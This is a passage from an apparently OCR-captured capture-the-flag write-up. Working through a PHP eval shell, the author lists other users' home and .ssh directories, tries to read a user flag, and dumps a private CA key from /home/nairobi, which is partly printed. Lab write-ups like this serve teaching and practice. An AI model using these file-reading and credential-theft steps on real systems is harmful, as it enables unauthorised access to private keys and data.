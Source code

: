 ```c
     ".ash_history",
     ".ssh",
     "memcached.ini",
     "memcached.js",
     "node_modules",
   ]

```

```user.txt``` is inside ```berlin```

Lets try to get ```user.txt``` through ```file_get_contents()```

```c
echo file_get_contents("/home/berlin/user.txt")       
PHP Warning:  file_get_contents(/home/berlin/user.txt): failed to open stream: Permission denied in phar://eval()'d code on line 1 
```

This file is restricted and we need more higher privilege

Lets scan for other config files,

```c
scandir("/home/professor/.ssh")
PHP Warning:  scandir(/home/professor/.ssh): failed to open dir: Permission denied in phar://eval()'d code on line 1                          
scandir("/home/berlin/.ssh")
PHP Warning:  scandir(/home/berlin/.ssh): failed to open dir: Permission denied in phar://eval()'d code on line 1                             
scandir("/home/dali/.ssh")    
=> [
     ".",
     "..",
     "authorized_keys",
     "known_hosts",
   ]
```

No useful info on ```SSH```, because of permission we cannot access it

But there is something interesting in ```/home/nairobi/ca.key```

```c
file_get_contents("/home/nairobi/ca.key")
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
```